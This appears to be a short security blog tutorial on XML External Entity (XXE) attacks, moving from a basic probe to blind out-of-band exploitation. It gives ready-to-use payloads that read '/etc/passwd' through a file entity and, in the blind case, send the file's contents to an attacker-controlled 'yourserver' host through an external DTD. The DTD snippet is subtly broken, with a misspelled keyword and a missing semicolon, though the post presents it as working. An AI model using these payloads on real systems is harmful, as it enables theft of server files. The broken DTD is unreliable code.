 Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"<br><br>

### What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic 
2. Blind.

Let's talk about 'basic' type:- 

For ex you have a url with a parameter that parses XML data somthing like this:- 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. You have to confirm the vulnerability existence and this can be done by something like this.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/'>]><root>&test;</root>`

Now let's understand from Doctype portion. As we define the root element i.e. root, next in the DOCTYPE we define the Entity and that entity contains SYSTEM attribute which indicate that the entity is External.

Now when you give this to miconfigured XML parser, the miconfigured XML parser will parse the results and it will process our External entity by **requesting to your server.**

So if you got a new connection in the log file then it is confirmed that you have found XXE.

### Now it's time to exploit it.

Our main target is to read local files of the web server and this can be done using this payload 

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>`,

The xml parser will process this payload as same as above but instead of requesting to your server now it will request to locally, with the file protocol, it will grep the file contents and shown to us. Hence, we can read local file of the webserver.

### What if the xml data is not showing to us?

Still you can confirm the existence of the vulnerability by using the first payload above. But you can't see the file contents of local files of webserver. This is still an issue but now the severity is a ***little bit low.*** And, this is called Blind XXE OR Out-of-band XXE.

So we also needed to blind means we have to use blind payload.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY % test SYSTEM 'http://yourserver/xml.dtd'> %test; %exe]><root>&entity;</root>`

Your xml.dtd contents:- 

`<!ENTITY % file SYSTEM "file:///etc/passwd">`
`<!ENTIY % exe "<!ENTITY entity SYSTEM 'http://yourserver/%file;'>">`

Lot's of code to understand:-

> we are using External dtd file i.e. `%test;`. So first the xml parser will parse this entity and make a request to your web-server for getting the contents of dtd file. Now, in that dtd file we define some entities to process. 
>
> `%exe;` will make another general entity i.e. &entity; and that entity will make a request to our server with the *file contents.* which was found by the `%file;`
>
> When the xml parser parses the entity `%file;`, then that entity will grep the file contents of local files of the server (which is our main target). 
>
> Now attacker can log the request and reconstruct the file contents. 

Make sense?

Let's see the demo below.

<video src="bandicam 2018-11-04 23-35-26-024.mp4" width="320" height="200" controls preload></video>



